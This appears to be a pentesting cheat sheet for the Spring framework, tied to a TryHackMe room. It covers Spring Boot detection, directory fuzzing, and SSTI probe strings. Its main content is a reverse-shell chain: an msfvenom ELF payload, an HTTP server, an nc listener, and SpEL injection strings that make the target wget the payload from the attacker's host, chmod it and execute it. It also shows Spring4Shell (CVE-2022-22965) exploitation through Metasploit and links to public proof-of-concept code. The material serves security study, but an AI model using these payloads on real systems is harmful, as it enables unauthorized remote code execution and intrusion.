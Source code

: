 ```yaml
---
title: Spring Pentesting
description: Spring is an application framework and inversion of control container for the Java platform.
tags:
    - Reverse Shell
    - SSTI
    - Web
refs:
    - https://tryhackme.com/room/spring4shell
date: 2023-09-15
draft: false
---
```


## Framework Detection

If we get the **Whitelabel Error Page**, the website may use **Spring Boot**.

<br />

## Enumeration

### Directory Discovery

```bash
ffuf -u https://example.com/FUZZ -w seclists/Discovery/Web-Content/spring-boot.txt
```

<br />

## SSTI

### Discovery

If there is an input form, such as a search form, or URL parameter which the parameter is reflected in the website, you may be able to find the vulnerability to the server-side template injection.

Try them:

```java
2*2
#{2*2}
*{2*2}
```

Then you can also check more about that.

```java
{"dfd".replace("d", "x")}
#{"dfd".replace("d", "x")}
*{"dfd".replace("d", "x")}

// ---------------------------------------

// the desired output of the above...
"xfx"
```

### Reverse Shell

First generate the payload of the reverse shell which will be downloaded from the website.

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f elf > r.elf
```

Start a local web server to allow the website to download the payload named “r.elf”

```sh
python3 -m http.server 8000
```

In another terminal, open listener for getting the reverse shell.

```sh
nc -lvnp <local-port>
```

In the target website,

```java
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://<local-ip>:8000/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
```

Finally we should see to get the shell.

<br />

## Spring4Shell (CVE-2022-22965)

**Spring4Shell** is a vulnerabilitiy to remote code execution in **Spring** framework. It affects a component in **Spring Core** which is the heart of the framework.  
It is identified as a bypass of the patch for **CVE-2010-1622**.

### Exploitation

We can use **Metasploit** for this exploitation.

```sh
msfconsole
msf> use exploit/multi/http/spring_framework_rce_spring4shell
```

Alternatively, various PoCs are available in **GitHub repositories**.

- [https://github.com/BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [https://github.com/Leovalcante/spring4shell](https://github.com/Leovalcante/spring4shell)
- [https://github.com/me2nuk/CVE-2022-22965](https://github.com/me2nuk/CVE-2022-22965)